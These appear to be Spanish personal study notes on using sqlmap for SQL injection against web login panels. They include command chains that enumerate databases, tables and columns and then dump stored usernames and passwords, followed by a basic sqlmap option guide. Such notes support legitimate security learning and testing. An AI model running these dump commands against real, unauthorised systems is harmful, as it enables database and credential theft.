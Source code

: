 
---
# USO DE SQLMAP PARA PANELES LOGIN 

- Ataque de Sql inyection hacia paneles de acceso login
```bash
sqlmap -u <urlDelLogin> --forms --dbs --batch # Dumpeo de bases de datos
sqlmap -u <urlDelLogin> --forms -D <NombredelaBasedeDatos> --tables --batch # Dumpeo de las tablas de esa base de datos
sqlmap -u <urlDelLogin> --forms -D <NombredelaBasedeDatos> -T <NombredelaTabla> --columns --batch # Dumpeo de las columnas de esa tabla de esa base de datos
sqlmap -u <urlDelLogin> --forms -D <NombredelaBasedeDatos> -T <NombredelaTabla> -C <NombredelaColumna1>,<NombredelaColumna2> --dump --batch # Dumpeo de los datos que registran en las columnas como lo pueden ser nombres de usuario, id, contraseñas

```





---
### Guía Básica de SQLmap

`sqlmap` es una herramienta de código abierto para la detección y explotación de vulnerabilidades de inyección SQL. Aquí están algunos de los comandos más utilizados:

#### 1. **Ejecutar un Escaneo Básico**

Para realizar un escaneo básico de una URL para detectar vulnerabilidades de inyección SQL:

`sqlmap -u "http://example.com/page.php?id=1"`

- `-u [URL]`: Especifica la URL que se va a analizar.

#### 2. **Especificar Parámetros**

Si necesitas especificar parámetros adicionales (por ejemplo, parámetros de POST), usa el siguiente formato:

`sqlmap -u "http://example.com/page.php" --data="id=1&other_param=2"`

- `--data`: Utiliza esta opción para enviar datos en una solicitud POST.

#### 3. **Identificar el Tipo de Base de Datos**

Para identificar el tipo de base de datos que está detrás de la aplicación web:

`sqlmap -u "http://example.com/page.php?id=1" --dbms`

- `--dbms`: Especifica el tipo de base de datos a detectar (opcional si solo quieres detectar).

#### 4. **Enumerar Bases de Datos**

Para enumerar las bases de datos disponibles en el servidor:


`sqlmap -u "http://example.com/page.php?id=1" --dbs`

- `--dbs`: Lista todas las bases de datos disponibles.

#### 5. **Enumerar Tablas en una Base de Datos**

Para enumerar las tablas de una base de datos específica:

`sqlmap -u "http://example.com/page.php?id=1" -D [database_name] --tables`

- `-D [database_name]`: Especifica el nombre de la base de datos para listar sus tablas.
- `--tables`: Lista todas las tablas en la base de datos especificada.

#### 6. **Enumerar Columnas de una Tabla**

Para enumerar las columnas de una tabla específica en una base de datos:

`sqlmap -u "http://example.com/page.php?id=1" -D [database_name] -T [table_name] --columns`

- `-T [table_name]`: Especifica el nombre de la tabla para listar sus columnas.
- `--columns`: Lista todas las columnas en la tabla especificada.

#### 7. **Extraer Datos de una Tabla**

Para extraer datos de una tabla específica:


`sqlmap -u "http://example.com/page.php?id=1" -D [database_name] -T [table_name] --dump`

- `--dump`: Extrae y muestra los datos de la tabla especificada.

#### 8. **Especificar el Tipo de Inyección**

Para especificar el tipo de inyección que deseas usar (por ejemplo, `union`, `boolean-based`, `error-based`):


`sqlmap -u "http://example.com/page.php?id=1" --technique=U`

- `--technique=[U]`: Especifica el tipo de técnica de inyección SQL a usar (U para UNION, B para Boolean-based, E para Error-based, etc.).

#### 9. **Usar un Proxy**

Para usar un proxy (por ejemplo, Burp Suite) durante el escaneo:

`sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"`

- `--proxy`: Especifica el proxy a usar para las solicitudes.

#### 10. **Obtener Ayuda**

Para obtener ayuda sobre los comandos y opciones de `sqlmap`:

`sqlmap --help`

# Introducción a SQLMap

Parámetros Principales como la url de gestion, la cookie de sesion ya que se necesita estar logueado lo que queremos exztraer, en este caso principalmente kas bases de datos y el --batch que lo que hace es automatizar sqlmap y que no nos pregunte a cada rato acerca de confirmaciones 

![[Pasted image 20241108174501.png]]

Dumpeo de Tablas 

![[Pasted image 20241108175336.png]]

Dumpeo de Columnas 

![[Pasted image 20241108175437.png]]

Dumpeo de Usuario | Contraseña 

![[Pasted image 20241108175540.png]]


